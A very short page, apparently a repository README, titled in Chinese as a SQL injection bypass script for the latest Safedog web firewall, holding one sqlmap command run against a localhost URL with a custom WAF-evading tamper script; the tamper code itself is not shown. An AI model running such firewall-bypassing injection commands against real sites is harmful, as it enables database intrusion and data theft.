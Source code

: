 # 最新版本安全狗sql注入绕过脚本


python sqlmap.py -u "http://127.0.0.1/id.php?id=1" --tamper=SafetyDogV4 --random-agent -v3 --fresh-queries
